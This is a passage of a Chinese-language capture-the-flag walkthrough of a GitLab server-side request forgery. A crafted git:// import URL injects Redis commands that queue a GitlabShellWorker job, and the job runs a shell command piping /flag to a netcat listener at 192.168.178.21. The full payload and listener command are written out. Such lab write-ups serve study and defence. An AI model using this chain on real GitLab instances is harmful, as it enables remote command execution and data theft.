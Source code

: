 `system_hook_push`可以用来处理新作业它和实际`payload`中使用的是一样的。现在，为了执行代码/命令，现在需要一个类来做这件事，把它看作一个小工具。幸运的是，`Jobert`还找到了正确的类–[gitlab_shell_worker.rb](https://gitlab.com/gitlab-org/gitlab-foss/-/blob/master/app/workers/gitlab_shell_worker.rb)。

```
class GitlabShellWorker
  include ApplicationWorker
  include Gitlab::ShellAdapter

  def perform(action, *arg)
    gitlab_shell.__send__(action, *arg) # rubocop:disable GitlabSecurity/PublicSend
  end
end
```

正如所看到的，这正是一直在寻找的类。现在这个`GitlabShellWorker`被调用时带有一些参数，比如`class_eval`和需要执行的真正的命令，在例子中，如下所示。

```
open('| COMMAND_TO_BE_EXECUTED').read
```

在实际`payload`中，将队列推送到`system_hook_push`并让`GitlabShellWorker`类运行命令。

现在有了探索所需的一切，可以制作出最后的`payload`并执行。在此之前，需要在主计算机(192.168.178.21)上设置一个`netcat listener`来接收该`flag`。

```shell
$ nc -lvp 1234
```

最终的payload如下所示。

```shell
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| cat /flag | nc 192.168.178.21 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
exec
```

有一些重点需要注意:

* 在上面的`payload`中，`redis`命令的每一行前面都需要有一个空格–不知道为什么
* 正在读取`flag`并将其发送给我们的`netcat listener`
* 添加一个额外的`exec`命令，以便第一个命令正确执行，第二个命令将与下一行而不是第一行连接。这样做是为了`payload`的重要部分不会破裂

带有`payload`的最终`import URL`:

* 没有`url`编码之前的`payload`(可根据自己需要修改)

```shell
# 没有url编码之前的payload
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|cat /flag | nc 192.168.178.21 1234\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```
